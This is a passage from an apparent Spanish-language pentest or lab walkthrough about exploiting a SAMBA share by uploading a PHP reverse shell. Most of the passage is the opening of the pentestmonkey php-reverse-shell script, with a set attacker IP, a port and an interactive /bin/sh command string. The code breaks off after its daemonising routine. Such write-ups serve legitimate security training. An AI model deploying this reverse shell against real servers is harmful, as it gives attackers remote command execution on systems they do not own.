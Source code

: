 
---
## **Explotación 2**

Otra forma de explotar el servicio de **SAMBA**, es en vez de crear un `web shell`, podemos crear directamente una `reverse shell` y subirla al servicio y ejecutarla.

### Creamos una REVERSE SHELL
Con la herramienta `nano`, creamos una fichero llamado **exploit.php** que va ser la `reverse shell` que subiremos al `smb` y el código lo podemos encontrar en el github de [pentesterMokey][[https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php] y cambiamos la *IP* y el *puerto*. 
```
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.1.31';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
```